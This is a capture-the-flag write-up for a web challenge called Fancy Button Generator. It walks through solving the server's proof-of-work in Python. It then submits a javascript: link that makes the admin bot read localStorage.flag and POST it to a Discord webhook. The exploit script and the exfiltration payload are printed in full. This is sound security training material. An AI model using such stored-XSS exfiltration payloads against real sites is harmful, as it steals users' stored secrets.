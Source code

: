 # FANCY_BUTTON_GENERATOR

## Challenge generals information
CTF website: https://ctf.rars.win/ \
Challenge page: https://ctf.rars.win/campaign/web/fancy-button-generator
Linked files:
    - A directory containing the entire code
    - a link to the hosted code (https://fbg.rars.win/).

## I - Understand the code

The code is divided in two parts: 
 - The admin code, a node.js code,
 - The server code, a Flask (python) code.

By reading the server code, we can understand that it's the one loading the page at https://fbg.rars.win/.
We can also see that this code offer a possibility to share our generated button with an admin.
Doing this, the server send a request to "/xss/add", which is a route managed by the admin node.js code. 
This allows us to think that the admin code is the one that will receive and evaluate our button.

By reading the admin code, we can see that the flag (because it's the name of the variable) is located inside env 
variable, and is stored inside the localStorage of the page created to click on our button. This allows us to see the 
path to this flag:
 - Send a button to be the server, and being accepted to be able to send it to the admin,
 - Send admin specific information that allow him to send us the flag while it is testing our button.

## II - Be accepted by the server

By looking inside server.py code, we can see that we need to send a request to /pow if we want to be verified 
(`session['verified'] = True`). For this, we need to send him the solution of a test, using two parameters.
First, we should send a get request to the server/pow to get these parameters, use the functions given inside pow.py 
in order to find the solution, and send the solution in post to the server to be verified for 30 seconds.

To do this, we simply need to run this python code :
```python
import requests
from pow_fun import solve

host = "https://fbg.rars.win/"
s = requests.Session()
data = s.get(host + "pow").json()
solution = solve(data['pref'], data['suff'], 5)
s.post(host + "pow", json={"answer": solution})
```

## III - Send our button 
While testing the button, the admin will click on it. This action will open a new page with it's own empty local 
storages, so send the admin to a page with a JS code I typed myself didn't work.
We can also put a link that don't send the admin to another page, but make him run a JS code locally on the same page
(with the flag in the localStorage) by sending a link like : `javascript: <my_js_code>`. Then, while testing the button, 
the admin will run our javascript code.
For this code, I choosed to make him send me the flag on a discord webhook:
```javascript
fetch(
    'https://discord.com/api/webhooks/link/to/my/webhook',
    {
        'method':'POST',
        'headers':
            {
                'content-type':'application/json'
            },
        'body': JSON.stringify( 
            {
                'content': localStorage.flag  // AKA 'content': 'message to send'
            })
    });
```

that give us a link like:
```python
link = "javascript:fetch('https://discord.com/api/webhooks/link/to/my/webhook',{'method':'POST','headers':{'content-type':'application/json'},'body': JSON.stringify({'content': localStorage.flag})});";
```

And so send this link to the admin will make him send the flag to us my discord message.

So finally, executing the following python code: 
```python
import requests
from pow_fun import solve

# For server registration
host = "https://fbg.rars.win/"
s = requests.Session()
data = s.get(host + "pow").json()
solution = solve(data['pref'], data['suff'], 5)
s.post(host + "pow", json={"answer": solution})

# For admin
button_title = "give me flag plz"
link = "javascript:fetch('https://discord.com/api/webhooks/link/to/my/webhook',{'method':'POST','headers':{'content-type':'application/json'},'body': JSON.stringify({'content': localStorage.flag})});";
r = s.get(host + "admin", params={"title": button_title, "link": link})
```

Will give us the flag:\
![flag](https://drive.google.com/uc?export=view&id=1imPbgRPgoEj6q5LluehxqRDZcaDQfj5L)
